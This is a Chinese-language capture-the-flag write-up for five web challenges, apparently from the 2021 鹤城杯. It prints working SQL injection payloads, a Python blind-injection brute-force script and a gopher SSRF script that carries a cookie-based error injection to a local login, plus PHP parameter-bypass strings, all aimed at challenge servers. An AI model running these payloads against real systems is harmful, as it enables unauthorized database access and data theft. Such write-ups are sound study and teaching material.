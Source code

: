 # easy_sql_2

登录功能，post传username和password。尝试admin,admin弱口令登录成功但是提示flag并不在这里。

username尝试`-1'||'1'%23`发现是password error!，因此猜测后端的应该是根据传入的username查出对应的password，查到了就不再是username error!，然后讲传入的password进行一次md5后与这个password比较，相同就登录成功。

尝试SQL注入，但是ban了select，因此利用table注入。

数据库名的话很好注入，直接不用table用regexp也可以注出是ctf了，然后开始注表名。

虽然过滤了tables，但是columns没有过滤，可以利用informaion_schema.columns来盲注出表名：

```sql
-1'||(('def','ctf','fl11aag','','',6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22)<(table/**/information_schema.columns/**/limit/**/3,1))#
```

按位一次爆破即可得到`fl11aag`，列名的话不重要就不爆了。

然后就是爆内容，经过测试只有一列，但是却有2行数据，第一行数据是假flag：

```sql
-1'||((binary/**/{})<(table/**/ctf.fl11aag/**/limit/**/1,1))#
```

写个脚本爆破即可，脚本没有对最后一位进行处理，爆出结果后手动改一下即可：

```python
import requests
import string
from time import sleep

def strtohex(s):
    ss = "0x"
    for i in s:
        ss +=  str(hex(ord(i))).replace("0x",'')
    return ss
url="http://182.116.62.85:26571/login.php"

flag="flag{"
for i in range(10000):
    #for j in ".-0123456789abcdefghijklmnopqrstuvwxyz0123456789{|}~":
    for j in range(19,128):
        #payload="-1'||(('def','ctf','fl11aag','{}','',6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22)<(table/**/information_schema.columns/**/limit/**/3,1))#".format(flag+j)
        payload="-1'||((binary/**/{})<(table/**/ctf.fl11aag/**/limit/**/1,1))#".format(strtohex(flag+chr(j)))
        data={
            "username":payload,
            "password":"1"
        }

        r=requests.post(url=url,data=data)
        #print(r.text)
        if "username" in r.text and "try" not in r.text:
            #print(r.text)
            #print(payload)
            #print(j)
            flag+=chr(j-1)
            print(flag)
            break

```





# middle_magic

一血，没啥好说的。。。。考了一遍又一遍的trick。

```
?aaa=%0apass_the_level_1%23

admin[]=1&root_pwd[]=2&level_3={"result":0}
```





# easy_sql_1

一血，很简单的套娃题，但是是做出来最少的Web。。感觉是那个注入点太阴间了。

老登录界面，说不是inner所以不行，f12看到use.php，进去有个ssrf，利用gopher协议打post然后adminadmin登录后发现给了cookie:`this_is_your_cookie=YWRtaW4=`，把cookie带上

再经过一些尝试发现post没什么回显，尝试cookie是不是可以注入，将`admin'`base64加密后填上去再访问，直接SQL语句报错，用的sqli-labs的库，直接报错注出flag即可：

```python
import requests
from urllib.parse import quote

data="""POST / HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Cookie: this_is_your_cookie=LTEnKXx8dXBkYXRleG1sKDEsY29uY2F0KDEsKHNlbGVjdCBncm91cF9jb25jYXQoZmxhZykgZnJvbSBmbGFnKSwxKSwxKSM=;PHPSESSID=susn9dj4f1806v0pl5oiureek1;
Content-Length: {}

{}
"""
payload="uname=admin&passwd=admin"
length=len(payload)
data=data.format(length,payload)
data=quote(data,'utf-8')
url="http://182.116.62.85:28303/use.php"
params={
    'url':"gopher://127.0.0.1:80/_"+data
}
headers={
    'Cookie':"PHPSESSID=8t4ppbs8ek3l5v5estgbttqtu3"
}

r=requests.get(url,params=params,headers=headers)
print(r.text)
```





# EasyP

原题魔改，参考连接：https://www.gem-love.com/ctf/1898.html

直接打：`http://182.116.62.85:21895/index.php/utils.php/%81?show[source`





# Spring

XMAN的原题。。。

参考文章：http://blog.cyberpeace.cn/Spring-Web-Flow/

照着打就行。。。

![image-20211008170703255](鹤城杯201 Web.assets/image-20211008170703255.png)